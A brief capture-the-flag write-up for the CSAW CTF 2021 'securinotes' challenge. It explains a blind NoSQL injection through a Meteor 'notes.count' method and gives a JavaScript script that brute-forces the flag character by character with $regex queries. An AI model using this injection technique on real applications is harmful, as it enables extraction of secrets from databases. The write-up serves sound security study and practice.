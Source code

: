 # CSAW CTF 2021 - securinotes

We can discover calls to Meteor javascript inteface in the sourcecode, which the `notes.count` allows arbitrary query to the NoSQL backend and return count of documents. (blind injection)

## 

```js
# It is discovered that the flag is 11 chars and `[a-z0-9A-Z]`
Meteor.call('notes.count', {body: {$regex: 'flag\{[a-z0-9A-Z]{11}\}'}}, console.log);

# Brute the flag
let chars = 'QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm1234567890';

let req = (t) => new Promise((resolve) => Meteor.call('notes.count', {body: {$regex: 'flag\{' + t + '.{' + (11 - t.length) + '}\}'}}, (a,b) => resolve(b)));

let brute = async (prefix) => {
    for (const c of chars) {
        const result = await req(prefix + c);
        if (result > 0) {
            console.log(prefix + c, result);
            return prefix + c;
        }
    }
}

let prefix = '';
for (let i = 0; i < 11; i++) {
    prefix = await brute(prefix);
}

```